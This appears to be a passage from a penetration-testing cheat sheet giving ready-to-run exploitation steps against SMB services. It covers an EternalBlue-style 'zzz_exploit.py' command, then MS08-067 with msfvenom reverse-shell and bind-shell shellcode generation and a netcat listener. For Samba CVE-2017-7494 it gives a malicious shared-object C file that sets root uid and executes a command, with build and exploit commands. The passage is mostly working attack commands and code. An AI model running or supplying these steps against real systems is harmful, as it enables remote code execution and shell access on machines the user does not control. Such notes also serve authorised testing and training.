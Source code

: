 #### If this doesn’t work, try this one

```
python zzz_exploit.py <IP>
```

### MS08-067

```
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```

### CVE-2017-7494

```
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```
